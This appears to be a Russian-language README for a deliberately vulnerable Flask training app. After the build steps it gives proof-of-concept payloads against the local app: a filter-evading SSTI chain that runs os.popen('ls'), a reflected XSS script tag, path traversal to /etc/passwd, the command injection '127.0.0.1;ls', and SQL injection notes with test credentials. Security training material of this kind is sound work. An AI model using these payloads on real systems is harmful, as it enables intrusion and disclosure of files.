# vuln-app
#Уязвимая версия приложения

### Инструкция по сборке и запуску приложения

> - git clone "текущий репозиторий"
> - cd app
> - python __init__.py
> - flask приложение будет запущено по адресу http://127.0.0.1:8089

![image](https://github.com/medarov411/vuln-app/assets/60567375/302c807a-5503-411e-a291-bbe552f247ec)



### Proof of Concept

SSTI:

> url - http://127.0.0.1:8089/contact. Контактная форма, с одним полем ввода.

> Настроил блеклист для ssti, чтоб пейлоад был поинтересней. blacklist = [".","[","]","_","join","init","flag"]

> Конечный пейлоад: {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}

> ![image](https://github.com/medarov411/vuln-app/assets/60567375/0635d79b-576c-4515-8675-169c49209763)

<p>&nbsp;</p>

XSS(reflected):
> xss эксплуатируется там же, где и ssti - http://127.0.0.1:8089/contact

> http://127.0.0.1:8089/contact?email=<script>alert(1)</script>

> ![image](https://github.com/medarov411/vuln-app/assets/60567375/0b6d6749-0813-4635-aaf4-69384d24f5f8)

<p>&nbsp;</p>

Path Traversal:
> кнопка Read Policy на главной странице "http://127.0.0.1:8089/" ведет на url "http://127.0.0.1:8089/view_file?filename=15020.pdf"

> пейлоад:http://127.0.0.1:8089/view_file?filename=../../../../../etc/passwd

> ![image](https://github.com/medarov411/vuln-app/assets/60567375/2b8cf974-f629-443f-b30c-5925e08defb1)

<p>&nbsp;</p>

OS Command injection:
> на сайте реализовано подобие ping сервиса. Url - http://127.0.0.1:8089/ping

>пейлоад: 127.0.0.1;ls

>![image](https://github.com/medarov411/vuln-app/assets/60567375/303665c2-83d6-41ba-8fd2-5706ad0efa01)

<p>&nbsp;</p>

SQLI:
> форма авторизации в админ панель подвержена sql инъекциям. url - http://127.0.0.1:8089/login

>в базе данных есть два юзера - admin:jasper, wiener:password

>При успешной авторизации, происходит редирект на /admin-panel?user={username}
>![image](https://github.com/medarov411/vuln-app/assets/60567375/6e520b0f-355b-4377-8839-0b1740a8bcf7)
P.S не обращайте внимания, что там написано IDOR. Эта админ панель также будет использована в демонстрации IDOR уязвимости.

>При не правильных данных: Login Failed
>![image](https://github.com/medarov411/vuln-app/assets/60567375/486498d8-1a5b-4fa2-a2de-7922159825b4)

### Дополнительные комментарии
> От себя решил добавить SSTI с фильтрацией, все таки это flask. Не добавить в него ssti, было бы неуважительно :)


